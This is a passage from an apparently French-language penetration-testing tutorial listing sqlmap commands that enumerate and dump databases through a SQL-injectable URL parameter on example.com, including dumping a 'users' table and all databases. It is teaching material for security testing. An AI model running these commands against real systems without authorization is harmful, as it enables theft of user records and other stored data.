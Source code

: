 Commande SQLMap pour cela :

{% code overflow="wrap" fullWidth="true" %}
```bash
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```
{% endcode %}

***

### <mark style="color:blue;">Énumération des tables</mark>

Une fois le nom de la base connu, on peut récupérer les noms des tables avec :

```bash
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

Pour extraire le contenu d’une table spécifique, utilisez :

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

Les résultats peuvent être exportés en CSV, HTML ou SQLite avec l’option `--dump-format`.

***

### <mark style="color:blue;">Énumération conditionnelle</mark>

Pour récupérer des lignes spécifiques avec une condition WHERE :

{% code overflow="wrap" fullWidth="true" %}
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```
{% endcode %}

***

### <mark style="color:blue;">Énumération complète</mark>

Pour extraire tout le contenu d’une base :

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -D testdb
```

Pour récupérer toutes les bases et tables (sauf les bases système) :

```bash
sqlmap -u "http://www.example.com/?id=1" --dump-all --exclude-sysdbs
```

***

## <mark style="color:red;">**Advanced Database Enumeration with SQLMap**</mark>
